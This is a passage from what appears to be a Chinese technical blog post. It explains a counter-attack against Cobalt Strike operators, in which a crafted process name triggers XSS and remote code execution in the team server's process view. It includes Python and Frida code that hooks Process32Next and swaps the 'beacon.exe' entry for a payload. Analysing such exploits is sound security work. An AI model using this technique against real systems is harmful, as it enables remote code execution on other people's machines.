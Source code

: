 **那么总结RCE调用链流程图如下👇**

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202401231801157.png" alt="RCE利用链流程图" style="zoom:50%;" />

### 2.4 反制原理

​	Cobalt Strike会话上线的beacon元数据里的用户名、主机名、操作系统信息等都是有长度限制的，由RSA加密，且能修改的部分只有user、computer、process字段，想要插入有效`<html>`标签的payload，可以从后续通信的AES数据入手，beacon和teamserver之间的通信分为两个阶段，第一个阶段是上线包的RSA加密，第二个阶段是后续命令下发的AES加密。在第二个阶段中，我们可以注入进程名称数据来绕过元数据的长度限制，进行XSS攻击，进一步实现远程代码执行。

​	而注入进程名可以通过Python的Frida实现(Frida是一种动态插桩工具，可以在运行时修改和监视应用程序的行为。多用于应用程序的逆向工程、漏洞分析、安全测试等方面)。当攻击者试图对会话执行列出进程，反制者通过Frida注入应用程序修改返回的进程名称为精心构造的payload，攻击者浏览到该进程名，远程代码执行则会实现

​	1) exp Python文件关键代码：
```
pid = frida.spawn(target)  
session = frida.attach(pid) 
script = session.create_script(frida_script) 
script.load() 
frida.resume(pid)
frida.kill(pid)
```
​	使用Frida库在设备上启动一个进程，并返回该进程的进程ID（PID）。target 是要启动的进程的名称或者路径。然后attach连接这个运行的进程。这个函数会返回一个 session，表示与目标进程的连接会话。通过这个会话，在目标进程中执行JavaScript代码，或者使用Frida提供的API来进行各种操作。这里将Frida脚本加载到目标进程，使目标进程开始执行Frida脚本中的代码，最后终止该进程

​	2)Frida部分脚本代码:
```
var pProcess32Next = Module.findExportByName("kernel32.dll", "Process32Next") 
Interceptor.attach(pProcess32Next, {
        onEnter: function(args) {
            this.pPROCESSENTRY32 = args[1];
            if(Process.arch == "ia32"){this.exeOffset = 36;}else{this.exeOffset = 44;}
            this.szExeFile = this.pPROCESSENTRY32.add(this.exeOffset);},
        onLeave: function(retval) {
            if(this.szExeFile.readAnsiString() == "beacon.exe") {
                send("[!] Found beacon, injecting payload");
                this.szExeFile.writeAnsiString(payload);}}})
```

​	在kernel32.dll模块中查找并获取Process32Next函数的地址，并将其赋值给变量pProcess32Next。Process32Next函数是Windows系统中的一个API函数，用于枚举进程信息。Frida中使用这个函数来获取正在运行的进程的信息。然后用Interceptor.attach()方法拦截函数调用。

​	然后根据当前进程的架构（32位或64位）来设置偏移量的值。不同架构的操作系统，可执行文件在PE文件格式中的偏移量不同。接着根据偏移量定位可执行文件名称。Windows系统的进程信息结构体PROCESSENTRY32中的szExeFile成员变量存储了进程的可执行文件名称，那么获取该成员的地址并将其赋值给变量this.szExeFile。

​	通过readAnsiString() 方法读取进程的可执行文件名称。判断是否为“beacon.exe”。如果是，则使用this.szExeFile.writeAnsiString(payload)将payload注入到该进程中，最后使用send函数将注入操作的结果发送给Frida客户端。【后续也可将文件名设置为变量】

​	3）**总结**：EXP通过在 Windows 操作系统中拦截 Process32Next 函数的调用，并在进程列表中查找名为beacon.exe的进程，如果找到了该进程，就会注入进程，修改进程名为payload代码


## 3.漏洞复现
